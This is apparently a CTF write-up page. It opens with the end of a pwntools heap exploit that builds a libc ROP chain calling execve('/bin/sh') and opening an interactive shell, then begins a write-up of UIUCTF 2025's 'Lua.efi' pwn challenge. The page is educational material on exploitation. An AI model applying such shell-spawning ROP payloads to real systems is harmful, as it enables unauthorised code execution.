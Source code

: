 ```py
create(2)
create(2)

poprdi = libc.address + 0x8555 # pop rdi; ret;
poprsi = libc.address + 0x7764 # pop rsi; ret;
poprax = libc.address + 0x6001 # pop rax; ret;
xorrdx = libc.address + 0x185be # xor edx, edx; mov rax, rdx; ret;
syscall = ld_base + 0x4370f # syscall; ret;

edit(0, b'A' * 8 + p64(leak+8+5) + p64(0x0))

payload = flat(
    poprdi,
    heap_base+0x10088, # /bin/sh 
    poprsi,
    heap_base+0x10f88, # sh 
    xorrdx,
    poprax,
    0x3b,
    syscall
)

edit(2, payload)

io.interactive()
```

# Lua.efi

|||
|-|-|
|  **CTF**  |  [UIUCTF](https://2025.uiuc.tf/) [(CTFtime)](https://ctftime.org/event/2640)  |
|  **Author** |  YiFei Zhu |
|  **Category** |  Pwn |
|  **Solves** |  12  |

![img](/images/luaefi.png)

## Challenge Analysis

We can download the handout and see that it contains several files:

![img](/images/luahandout.png)

In the `README` file, we can find a description of each directory. The `edk2_artifacts` directory contains all the artifacts with debug symbols. The `chal_build` directory isn't particularly important, except for a few files. The `run` directory holds all the necessary files to run the challenge.
